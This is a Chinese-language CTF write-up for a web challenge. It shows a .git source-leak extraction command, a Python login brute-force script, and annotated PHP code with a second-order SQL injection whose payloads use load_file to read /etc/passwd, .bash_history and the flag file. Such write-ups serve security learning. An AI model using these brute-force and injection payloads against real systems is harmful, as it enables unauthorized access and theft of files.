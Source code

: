 # comment

根目录有.git文件夹，显示403 Forbidden，但是没关系，  
```bash
python git_extract.py http://220.249.52.133:55889/.git/
```
恢复了两个文件，其中一个write_do.php.8ef569是完整的。  


首先要登录网站，提示是zhangweixxx，爆破即可，爆破脚本：  
```python
import requests

url = 'http://220.249.52.133:55889/login.php'

for i in range(0, 1000):
    i = '0' * (3 - len(str(i))) + str(i)
    data = {
        'username': 'zhangwei',
        'password': 'zhangwei' + i   # 000, 001, 002, ... 999
    }   
    result = requests.post(url=url, data=data)
    print(i)
    print('length: ' + str(len(result.text)))   # 观察其长度，长度不一样就是正确密码
```


题目代码：
```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);             # payload: http://220.249.52.133:55889/write_do.php?do=write
    $title = addslashes($_POST['title']);                   #   参数:  category=a', content=(select(load_file('/etc/passwd'))),/*
    $content = addslashes($_POST['content']);       
    $sql = "insert into board                               
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
        $category = mysql_fetch_array($result)['category'];     # 这里没有过滤，把category的内容原样输出
        $content = addslashes($_POST['content']);       # 这里闭合上面的注释符*/，payload: write_do.php?do=comment，参数：bo_id=1&content=*/#
        $sql = "insert into comment
            set category = '$category',                         
                content = '$content',
                bo_id = '$bo_id'";
        $result = mysql_query($sql);                            # 此时这句组合起来的实际sql语句变成insert into comment 
    }                                                           #       set category = a', content=(select(load_file('/etc/passwd'))),/*',
    header("Location: ./comment.php?id=$bo_id");                #       content = '*/#',
    break;                                                      #       bo_id = '1'
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

在/etc/passwd发现home目录是/home/www/，然后查看其.bash_history，`category=a', content=(select(load_file('/home/www/.bash_history'))),/*`，

发现一个.DS_Store文件在/tmp/html/目录下，查看`a', content=(select(hex(load_file('/tmp/html/.DS_Store')))),/*`

解码后发现flag文件flag_8946e1ff1ee3e40f.php，查看`a', content=(select(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*`，得到flag